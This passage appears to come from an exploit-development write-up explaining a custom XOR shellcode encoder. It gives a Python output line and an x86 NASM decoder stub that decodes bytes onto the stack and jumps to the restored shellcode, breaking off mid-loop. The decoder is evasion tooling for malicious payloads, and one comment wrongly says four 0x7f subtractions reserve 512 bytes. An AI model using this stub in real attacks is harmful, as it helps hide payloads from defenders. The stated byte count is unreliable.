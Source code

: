 ```python
print('[+] Encoded shellcode /w decoder stub (len: {}): {}\n'.format(len(decoder_stub) + len(shellcode_encoded), decoder_stub_hex + shellcode_encoded_hex))
```

The decoder uses the *JMP CALL POP* technique to push the address of the encoded shellcode on the stack. The decoder stub then makes room for 512 bytes on the stack by decreasing `$esp` by 512.

We use the `$edx` to keep track of the offset from the start of the encoded shellcode.

For each 4 bytes tuple, the bytes are stored as follows:
- 1st byte: `$bl`
- 2nd byte: `$bh`
- 3rd byte: `$cl`
- 4th byte: `$ch`

Then we XOR each byte with the key, located at `[$esi + $edx]` and store the results on the stack in reverse order. After each tuple is decoded, the decoder stub checks if the marker is reached and jumps to the shellcode on the stack if that's the case.

The complete decoder stub code if shown here:
---------------------------------------------

```nasm
global _start

section .text

_start:
        jmp short call_shellcode

decoder:
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        pop esi             ; address of shellcode
        mov edi, 0xaaaa9090 ; end of shellcode marker
        sub esp, 0x7f       ; make room on the stack (512 bytes)
        sub esp, 0x7f       ; make room on the stack
        sub esp, 0x7f       ; make room on the stack
        sub esp, 0x7f       ; make room on the stack

decode:
        mov bl, byte [esi + edx + 1]    ; read 1st encoded byte
        mov bh, byte [esi + edx + 2]    ; read 2nd encoded byte
        mov cl, byte [esi + edx + 3]    ; read 3rd encoded byte
        mov ch, byte [esi + edx + 4]    ; read 4th encoded byte
        xor bl, byte [esi + edx]        ; xor with the key byte
        xor bh, byte [esi + edx]        ; xor with the key byte
        xor cl, byte [esi + edx]        ; xor with the key byte
        xor ch, byte [esi + edx]        ; xor with the key byte
        mov byte [esp + eax], ch        ; store in memory in reverse order to restore original shellcode
    	mov byte [esp + eax + 1], cl    ; ..
        mov byte [esp + eax + 2], bh    ; ..
        mov byte [esp + eax + 3], bl    ; ..

        cmp dword [esi + edx + 5], edi  ; check if we have reached the end of shellcode marker
        jz execute_shellcode            ; if we do, jump to the shellcode and execute it

        inc edx
        inc edx
        inc edx
        inc edx
        inc edx
        add eax, 4
```